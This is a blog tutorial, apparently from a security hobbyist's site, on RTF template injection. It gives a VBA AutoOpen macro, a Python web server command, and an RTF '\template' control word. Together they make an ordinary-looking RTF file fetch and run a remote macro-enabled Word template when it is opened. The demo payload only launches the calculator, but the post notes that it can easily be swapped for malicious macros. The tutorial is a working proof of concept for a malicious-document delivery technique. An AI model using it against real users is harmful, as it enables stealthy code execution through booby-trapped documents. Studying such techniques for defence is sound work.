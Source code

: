 ```yaml
---
layout: post
title: 'RTF Template Injection'
date: '2022-02-09'
description: 'In this example, we will demonstrate how to use the “template” control word to cause an RTF file to pop up the calculator app when opened.  “Hold on... I can use the Start menu to do that. Why should I care?”, you may wonder. The simple answer is that this technique can be easily modified to spread malicious macros using otherwise benign looking RTF files.'
coverimage: RTF_Template_Injection.jpg
tags: exploit-development, rtf
published: true
posttype: article
categories: blog
---
```


In this example, we will demonstrate how to use the “template” control word to cause an RTF file to pop up the calculator app when opened.  “Hold on... I can use the Start menu to do that. Why should I care?”, you may wonder. The simple answer is that this technique can be easily modified to spread malicious macros using otherwise benign looking RTF files.

## What is an RTF file?

Tapping away in front of your Macintosh or the early versions of Windows, did you ever wonder what those .rtf files (Rich Text Format) were that you ever so occasionally encountered? The ones that were opened up with text editors (featuring a horizontal ruler) other than your trusted notepad?

RTF traces back to the late 1980s when it was developed and released. Rich text format files, as opposed to plain text files, can contain images, different font styles, formatting, and more. They are interoperable, which means they can be processed by a wide range of technologies, making them a portable file type. 

## Why should I care?

"Why should I care?" you might wonder. The short answer is that with little modification, this technique can be leveraged to spread malicious macros in otherwise benign RTF files - as actively being done by threat actor groups online. Within RTF files, specific control words (see http://latex2rtf.sourceforge.net/rtfspec_62.html for more) are used. These control words are specially formatted commands that instruct applications how to handle the file. Let us get started!  

# Instructions - RTF template injection with a calculator pop-up

In this example, we will demonstrate how to use the "template" control word to cause an RTF file to fetch another file from a web server controlled by us.  This example makes use of the template editing capabilities of RTF files, as well as the ability to fetch resources from a specified URL. The code we will use opens up a calculator on a Windows-based operating system when the RTF file is run. Note that macros will require enabling on your system.

<h5 class="step">Step 1 - Create a macro-enabled Word template file</h5>

This file will contain our macro that executes the calculator app when the RTF file is opened. 

Open Word and add the following Visual Basic code (macro) to it. Save the file as `calc.dotm`. 

```
Sub AutoOpen()
Dim Program As String
Dim TaskID As Double
Program = "calc.exe"
TaskID = Shell(Program, 1)
End Sub
```

*If you are unfamiliar with creating Word template files, we recommend checking out Microsoft's documentation on them: https://support.microsoft.com/en-us/office/save-a-word-document-as-a-template-cb17846d-ecec-49d4-82ea-a6f5e3e8b9ae.*

<h5 class="step">Step 2 - Start a web server</h5>

Launch an HTTP server in the folder containing the 'calc.dotm' file using your preferred method. If you are using Python 3, you can use the following command with the port number of your choice. 

```
python3 -m http.server <port number>
```

<h5 class="step">Step 3 - Create a benign RTF file</h5>

Get or make a simple RTF file. We will modify this in the next step to fetch our macro-enabled template file from the web server launched.

![](5e05c49b-2704-464a-9eb8-6afe16b298ec.png)

*There are sample RTF files you can use available online. Please always have your anti-virus solution enabled when downloading files from the Internet.*

<h5 class="step">Step 4 - Add remote template fetching capabilities to the RTF file</h5>

Use a HEX editor to open the RTF file created in the previous step. I used Hex Editor Neo. 

Look for a pre-existing enclosing group for a font family control word (for example, Times New Roman if your file uses it). Insert the following text after the font's ending tag with your listening IP and port + payload/file to fetch. 

```
{\*\template http://<your-IP>:<port number>/calc.dotm}
```

![](514cab5a-57fa-4783-9db1-35ca3867a8ef.png)

<h5 class="step">Step 5 - Show time</h5>

Save the changes and open the RTF file in its default application. If you are a Windows user, this will likely be Word. The remote file will be loaded from your web server and used to launch the calculator program when the RTF file is opened.

The below screen capture displays the macro-enabled template file being fetched.

![](20e0eb7d-9a66-4ff2-991c-366e9a7a3d84.png)

The below screen capture displays the RTF file opened and the calculator app launched.

![](c6ec75ba-dad0-4755-903a-7de8f5065320.png)

### Well that was easy... Where to from here?

I hope this article has served as a foundation for your further explorations. Why not look into creating your custom macro-enabled template files next?